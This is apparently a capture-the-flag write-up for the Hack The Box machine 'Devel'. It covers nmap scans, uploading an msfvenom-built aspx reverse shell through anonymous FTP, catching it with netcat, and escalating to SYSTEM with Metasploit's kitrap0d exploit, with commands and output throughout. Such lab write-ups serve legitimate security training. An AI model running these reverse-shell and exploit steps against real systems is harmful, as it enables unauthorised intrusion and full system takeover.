

# Devel

## Overview

On the machine a webserver and a FTP server are found to be running. Looking into the FTP server we find that we can upload files to the webserver. At this point a reverse shell is made and uploaded to the server. Once uploaded the shell is ran and a user shell is obtained on the machine. Looking into the machine a kernel exploit is found. Using metasploit, this kernel exploit is ran and a shell as NT Authority/System is gained.

## Enumeration

To begin 2 seperate nmap scans are run. The first one is to discover all of the open ports on the machine and the other is used to gain information about each port. There are only 2 ports that are open on the machine. The first is a webserver on port 80 and the other is a FTP server on port 21.

The first scan to find all the ports is:

```bash
sudo nmap -p- 10.10.10.5 -oA nmap/all-ports  
[sudo] password for tc:    
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-26 23:50 EDT  
Nmap scan report for 10.10.10.5  
Host is up (0.019s latency).  
Not shown: 65533 filtered ports  
PORT   STATE SERVICE  
21/tcp open  ftp  
80/tcp open  http  
  
Nmap done: 1 IP address (1 host up) scanned in 104.81 seconds
```

The second scan to gain more information is:

```bash
sudo nmap -p21,80 -sC -sV -oA nmap/info 10.10.10.5  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-26 23:53 EDT  
Nmap scan report for 10.10.10.5  
Host is up (0.019s latency).  
  
PORT   STATE SERVICE VERSION  
21/tcp open  ftp     Microsoft ftpd  
| ftp-anon: Anonymous FTP login allowed (FTP code 230)  
| 03-18-17  01:06AM       <DIR>          aspnet_client  
| 03-17-17  04:37PM                  689 iisstart.htm  
|_03-17-17  04:37PM               184946 welcome.png  
| ftp-syst:    
|_  SYST: Windows_NT  
80/tcp open  http    Microsoft IIS httpd 7.5  
| http-methods:    
|_  Potentially risky methods: TRACE  
|_http-server-header: Microsoft-IIS/7.5  
|_http-title: IIS7  
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 7.65 seconds
```

## Getting user shell

We find that the FTP server has anonymous access. After connecting to the FTP server and looking at the files it looks like the files on the webserver.

```bash
ftp> dir  
200 PORT command successful.  
125 Data connection already open; Transfer starting.  
03-18-17  01:06AM       <DIR>          aspnet_client  
03-17-17  04:37PM                  689 iisstart.htm  
03-17-17  04:37PM               184946 welcome.png  
226 Transfer complete.
```

We also find that we can upload files to the FTP server. At this point we decide to create a reverse shell and trying to get it to run on the server. In order to make a reverse shell we need code execution. On a windows server without PHP code execution can be gained by using an aspx or asp file. Using msfvenom we can generate a reverse shell in the aspx form.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST={IP Address} LPORT=9001 -f aspx > rev.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2701 bytes
```

After the creating the file we then upload it to the server. 

```bash
ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:user): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put rev.aspx
local: rev.aspx remote: rev.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2736 bytes sent in 0.00 secs (76.7427 MB/s)
ftp> dir
421 Service not available, remote server has closed connection
ftp> exit
```

At this point all that is needed is to navigate to the webpage and catching the shell. 



```bash
nc -nlvp 9001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.5.
Ncat: Connection from 10.10.10.5:49158.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection 3:

   Connection-specific DNS Suffix  . :
   IPv6 Address. . . . . . . . . . . : dead:beef::58c0:f1cf:abc6:bb9e
   Temporary IPv6 Address. . . . . . : dead:beef::68c4:b0bd:7512:ec01
   Link-local IPv6 Address . . . . . : fe80::58c0:f1cf:abc6:bb9e%15
   IPv4 Address. . . . . . . . . . . : 10.10.10.5
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:3982%15
                                       10.10.10.2

Tunnel adapter isatap.{C57F02F8-DF4F-40EE-BC21-A206B3F501E4}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :

Tunnel adapter Local Area Connection* 9:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
```

At this point we can access the user.txt file. 

## Getting root

At this point a we upgrade to a meterpreter shell. The easiest way to do this is change the payload we use in the msfvenom command. Instead of using ```windows/shell_reverse_tcp``` we can use ```windows/meterpreter_reverse_tcp```. Once we are in a meterpreter shell we can use the metasploit module ```local_exploit_suggester```. Using this module we get a list of different options to escalate our shell. 

```bash
[*] 10.10.10.5 - Collecting local exploits for x86/windows...   
[*] 10.10.10.5 - 37 exploit checks are being tried...  
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.  
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.  
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.  
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.  
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.  
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.  
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.   
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.  
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.  
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.  
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.  
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.  
[*] Post module execution completed
```

Looking at the list above, we see that the expoit ```exploit/windows/local/ms10_015_kitrap0d``` shows that the service is running. Using this exploit we end up getting a shell as NT Authority/System. We then can access the root.txt flag.